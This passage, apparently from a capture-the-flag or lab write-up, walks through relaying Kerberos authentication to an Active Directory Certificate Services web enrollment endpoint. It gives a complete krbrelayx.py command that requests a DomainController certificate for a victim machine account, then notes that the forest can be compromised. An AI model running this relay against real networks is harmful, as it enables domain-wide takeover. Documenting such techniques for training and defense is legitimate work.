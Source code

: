 ![](./assets/img/sysadmin/1.jpg)

Now, we can relay the Kerberos authentication to the domain controller's HTTP enrollment endpoint using `krbrelayx.py`:

```
/opt/tools/krbrelayx/krbrelayx.py --target 'http://PALACE-DC.jess.kingdom/certsrv/certfnsh.asp' --adcs --template 'DomainController' --victim 'PALACE-DC$'
```

![](./assets/img/sysadmin/2.jpg)

Using the generated certificate, we can very simply compromise the forest (as the `CA` is also the `DC`).

![](./assets/img/sysadmin/3.jpg)

